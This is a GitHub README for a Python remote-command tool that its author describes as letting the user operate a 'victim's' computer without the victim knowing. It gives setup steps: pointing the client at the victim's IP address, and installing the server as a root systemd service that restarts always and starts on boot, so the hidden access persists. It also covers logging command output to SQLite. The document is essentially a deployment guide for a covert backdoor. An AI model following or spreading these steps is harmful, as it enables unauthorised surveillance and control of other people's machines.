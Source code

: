This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.


Requirements

To run this project, you will need the following:

Python 3.x installed on both the server and client machines.

SQLite3 (included with Python).

Basic knowledge of using a terminal or command line interface.


Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up) -> Windows: python createDb.py Linux/Mac: python3 createDb.py


Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine): client_socket.connect(('192.168.169.117', 12345)) #Example


Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table: python3 create_db.py


Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot: sudo nano /etc/systemd/system/server.service


3.2: Add the following content to the file

[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.


3.3: Reload the systemd daemon and start the service:

sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service


Step 4: Running the Client

Run the command 'python3 client.py' on your terminal while you are on your projects directory -> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.


Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine: python3 view_db.py

This will print the stored command outputs.


That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
